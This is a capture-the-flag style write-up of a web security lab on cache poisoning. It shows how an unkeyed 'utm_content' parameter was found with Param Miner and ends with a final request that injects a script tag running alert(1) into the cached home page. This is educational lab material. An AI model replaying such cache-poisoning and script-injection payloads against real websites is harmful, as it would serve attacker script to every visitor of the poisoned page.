

# Web cache poisoning via an unkeyed query parameter
# Objective
This lab is vulnerable to web cache poisoning because it excludes a certain parameter from the cache key. A user regularly visits this site's home page using Chrome. To solve the lab, poison the cache with a response that executes `alert(1)` in the victim's browser.

# Solution
## Analysis

||
|:--:| 
| *Normal request* |
||
| *Request with extra parameter* |
||
| *Extra parameter is part of cache key* |
||
| *Request with extra parameter* |
||
| *Extra parameter is part of cache key* |


## Exploitation
### Param Miner
Extension Param Miner was used to identified unkeyed GET parameters - `Guess GET parameters` option. `utm_content` parameter was discovered.\
[UTM paramters info](https://www.terminusapp.com/blog/mastering-utm_campaign-utm_medium-and-utm_source-google-analytics/)

Almost all parameters of analyzed website are keyed. The below discovery means that parameter `utm_content` is not part of the cache key. The modification of its value do not create new cache entry. This parameter and its value is reflected to user. In the 4 example requests below parameter `xyz` works as **cache buster**:
```
GET /?xyz=xyz&utm_content=test          --> Miss (New response is cached)
... after 2s
GET /?xyz=xyz&utm_content=test          --> Hit  (Response comes from cache)
... after 2s
GET /?xyz=xyz&utm_content=testtest      --> Hit  (Response comes from cache)
... after 2s
GET /?xyz=abc&utm_content=testtest      --> Miss ('New' response is cached)
```

```
Identified parameter on 0a10000b03f7451b9d6991a500e9006a.web-security-academy.net: utm_content
Found issue: Web Cache Poisoning: Query param blacklist 
Target: https://0a10000b03f7451b9d6991a500e9006a.web-security-academy.net
The application excludes certain parameters from the cache key. This was confirmed by injecting the value 'akzldka' using the utm_content parameter, then replaying the request without the injected value, and confirming it still appears in the response. <br>For further information on this technique, please refer to https://portswigger.net/research/web-cache-entanglement
```

### Final exploit
Payload:
```
GET /?utm_content=xyz'/><script>alert(1)</script>
```
||
|:--:|
| *Web cache poisoning (for Chrome's User-Agent)* |
